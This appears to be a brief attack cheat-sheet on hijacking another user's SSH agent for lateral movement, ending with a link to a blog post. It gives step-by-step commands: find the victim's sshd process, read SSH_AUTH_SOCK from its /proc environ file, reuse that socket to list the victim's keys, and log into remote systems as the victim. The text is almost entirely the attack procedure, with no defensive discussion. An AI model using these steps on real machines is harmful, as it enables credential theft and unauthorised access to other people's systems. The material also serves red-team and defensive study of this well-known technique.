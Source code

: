 #### Attacker finds the SSHd process of the victim
	ps uax | grep sshd
#### Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
	grep SSH_AUTH_SOCK /proc/<pid>/environ
#### Attacker hijack's victim's ssh-agent socket
	SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
#### Attacker can login to remote systems as the victim
	ssh remote_system -l vicitim
#### Read more
https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/